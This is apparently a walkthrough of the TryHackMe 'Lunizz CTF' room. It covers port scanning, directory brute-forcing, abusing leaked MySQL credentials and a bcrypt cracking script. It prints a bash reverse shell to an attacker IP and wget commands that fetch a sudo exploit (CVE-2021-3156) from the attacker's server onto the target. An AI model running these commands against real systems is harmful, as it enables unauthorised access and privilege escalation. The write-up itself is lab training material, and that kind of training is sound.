 # [Lunizz CTF](https://tryhackme.com/room/lunizzctfnd)

> Lunizz CTF

## Scanning

scan the machine

```
nmap -A -T4 10.10.80.142
```

there are 4 open ports (80,3306,4444,5000)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8f7fa2d8-9129-4b16-8519-f47db0f21c66)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ee0f0de9-2ca6-4e20-a4f0-1f1fdbeeb792)

decode the message on port 4444, we have `extremesecurerootpassword` and `p@ssword`

try to connect with netcat

```
nc 10.10.80.142 4444
```

it seem root, but no...

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/755f517f-f044-4711-9f62-0fcf0b30c86c)

## HTTP

just a normal webpage

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/773cff2e-4d82-4278-b255-f09eac30fd56)

## Enumeration

bruteforce the directory

```
gobuster dir -u http://10.10.80.142/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x php,txt
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/11fe8e44-0b87-4937-bce9-8149c7f76b33)

check the /hidden directory, it like a upload page

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1640cc87-20a7-4e11-99f5-69ca1162a01c)

and /whatever directory, it like a command injection

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f658b882-f052-49d3-9271-d5683c1841cb)

but all of above is not working

instructions.txt maybe more interested `runcheck:CTF_script_cave_changeme`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/327e91d7-60b2-49d8-b4f9-641434041f7d)

## Exploitation

connect to mysql server

```
mysql -u runcheck -p -h 10.10.80.142
CTF_script_cave_changeme
```

if it appear an error, wait a minute until it connect

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4e2144f9-f03d-4142-aa4a-1976a7c43bab)

```
SHOW DATABASES;
use runornot;
SHOW TABLES;
SELECT * FROM runcheck;
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/54f25b16-a6ca-489d-8369-41f6d408bacd)

hey, what is run level? what is run on root? doesn't this related to what we just found above

```
UPDATE runcheck SET run = 1;
```

comeback /whatever folder, the run level change to 1

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0d6edfc2-e1f7-4eab-b95f-a55e00f06521)

create a reverse shell

```
nc -vlnp 1234
````

```
/bin/bash -c "bash -i >& /dev/tcp/10.18.37.45/1234 0>&1"
```

cool, gain foothold

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c6a5a855-1ee3-41b7-b931-3125f51bda7f)

upgrade shell

```
python3 -c "import pty;pty.spawn('/bin/bash')"
export SHELL=/bin/bash;export TERM=xterm-256color
Ctrl+Z
stty raw -echo; fg
```

```
ls -la /
```

i found a folder `proct` is owned by adam maybe interest

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b5faf632-5435-41bc-b479-fa85373b11ca)

we have a subfolder pass and a python file inside

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/90ebe2f0-7ddb-4d1a-97d1-49e66767cf4c)

so crack the password of bcrypt

```
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```

but it's not work because the password is salted, you must crack by hand

```
#!/usr/bin/env python3

import bcrypt
import base64

salt = b'$2b$12$SVInH5XmuS3C7eQkmqa6UO'
bcrypt_hash = b'$2b$12$SVInH5XmuS3C7eQkmqa6UOM6sDIuumJPrvuiTr.Lbz3GCcUqdf.z6'

with open('/usr/share/wordlists/rockyou.txt', 'r', encoding='latin-1') as f:
	for word in f.readlines():
		passw = word.strip().encode('ascii', 'ignore')
		b64str = base64.b64encode(passw)
		hashAndSalt = bcrypt.hashpw(b64str, salt)
		print('\r', end='') # Clear previous line
		print(f'[*] Cracking hash: {hashAndSalt}', end='')

		if bcrypt_hash == hashAndSalt:
			print('\n[+] Cracked!')
			print(f'[+] Before hashed: {passw}')
			print(f'[+] After hashed: {hashAndSalt}')
			exit()
```

i said it will take you too long to get actual password...

Spoiler alert: the password is `isolsa_tabefX100pre`. Where does this occur in rockyou?

```
import bcrypt
import base64

password = 'isolsa_tabefX100pre'
bpass = password.encode('ascii')
passed= str(base64.b64encode(bpass))
hash = bcrypt.hashpw(passed.encode(), b'$2b$12$SVInH5XmuS3C7eQkmqa6UO')
stored_hash = b'$2b$12$SVInH5XmuS3C7eQkmqa6UOM6sDIuumJPrvuiTr.Lbz3GCcUqdf.z6'

if hash == stored_hash:
  print("match: ", password)
```

Ok. Let's say we use our python script and run through rockyou; how long would that take? 

Honestly I don't know, but it would be a long time. Many hours. i don't know how it got past testing

but, i found another approach at CVE-2021-3156

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f00a1b03-9013-49ca-b99e-86e08dfb0bea)

```
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
python3 -m http.server
```

on target machine

```
cd /tmp
wget http://10.18.37.45:8000/exploit.c
wget http://10.18.37.45:8000/shellcode.c
wget http://10.18.37.45:8000/Makefile
make
./exploit 0
```

maybe it's not work, a bad experience





| Flag | user.txt |
| --- | --- |
| Answer | <flag> |

## Privilege Escalation

.

| Flag | root.txt |
| --- | --- |
| Answer | <flag> |
